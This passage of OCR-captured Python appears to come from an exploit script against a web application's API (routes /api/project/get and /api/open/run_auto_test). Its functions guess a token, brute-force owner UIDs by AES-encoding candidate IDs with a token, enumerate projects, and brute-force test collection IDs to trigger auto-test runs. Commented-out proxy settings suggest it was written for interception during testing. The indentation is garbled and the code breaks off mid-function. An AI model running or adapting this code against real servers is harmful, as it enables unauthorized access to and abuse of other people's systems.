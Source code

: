 ```python
                                     # proxies={'https': 'https://127.0.0.1:8085', 'http': 'https://127.0.0.1:8085'},
                                     # verify=False,
                                    )
            res = response.json()

            if res['errcode'] == 400:
            current = guess
            break

            logger.debug(f'current cuess: {current}')

            return current[1:]


            def find_owner_uid(target, token):
            url = urljoin(target, '/api/project/get')
            for i in range(1, 200):
            params = {'token': aes_encode(f'{i}|{token}')}
            response = requests.get(url, params=params,
            # proxies={'https': 'https://127.0.0.1:8085', 'http': 'https://127.0.0.1:8085'},
            # verify=False,
            )
            data = response.json()
            if data['errcode'] == 0:
            return i

            return None


            def find_project(target, token, pid=None):
            url = urljoin(target, '/api/project/get')
            params = {'token': token}
            if pid:
            params['id'] = pid

            response = requests.get(url,
            params=params,
            #proxies={'https': 'https://127.0.0.1:8085', 'http': 'https://127.0.0.1:8085'},
            #verify=False,
            )
            data = response.json()

            if data['errcode'] == 0:
            return data['data']


            def find_col(target, token, brute_from, brute_to):
            url = urljoin(target, '/api/open/run_auto_test')

            for i in range(brute_from, brute_to):
            try:
            params = {'token': token, 'id': i, "mode": "json"}
            response = requests.get(url,
            params=params,
            timeout=5,
            #proxies={'https': 'https://127.0.0.1:8085', 'http': 'https://127.0.0.1:8085'},
            #verify=False,
            )

            data = response.json()
            if 'message' not in data:
            continue
```
